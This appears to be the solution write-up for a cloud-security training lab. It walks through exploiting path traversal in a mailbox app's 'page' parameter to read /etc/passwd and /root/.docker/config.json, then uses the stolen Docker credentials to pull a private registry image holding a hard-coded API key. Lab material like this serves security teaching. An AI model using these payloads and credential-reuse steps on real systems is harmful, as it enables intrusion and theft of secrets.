







# Exploiting Private Registry via Misconfiguration - Solution

* Navigate to the application `http://mailbox-service.student-uniquename.cloudsec.training`

* Login to the application using `username: bob` and `password: bobmailbox`



* We can see that `README.md` discloses information regarding the private registry




* It appears that the `page` parameter is vulnerable to an Insecure Direct Object Reference, potentially allowing us to read other files on the system.
  
* Let's try out a common payload and see if this IDOR is actually a path traversal vulnerability. We can gain read a local files using payload `qqqqq/../../etc/passwd`



* Similarly we can read other sensitive files in the system and find that the system contains `/root/.docker/config.json` with payload `qqqqq/../../root/.docker/config.json`



* We can use this docker configuration to pull docker images from private registry. Save the `config.json` file onto your system

* Run the following command to configure the docker private registry using configuration file.

```bash
docker login -u _json_key -p "$(cat config.json)" https://gcr.io
```



* Now pull the private registry image to get the backend source code

```bash
docker pull gcr.io/training-automation-stuff/backend-source-code:latest
```



* Inspecting the image using the docker run command

```bash
docker run --rm -it gcr.io/training-automation-stuff/backend-source-code:latest sh
ls -la
cat index.js
```



* Now you can see that we have got the `NASA_DEMO_API_KEY` which is hard coded in the container image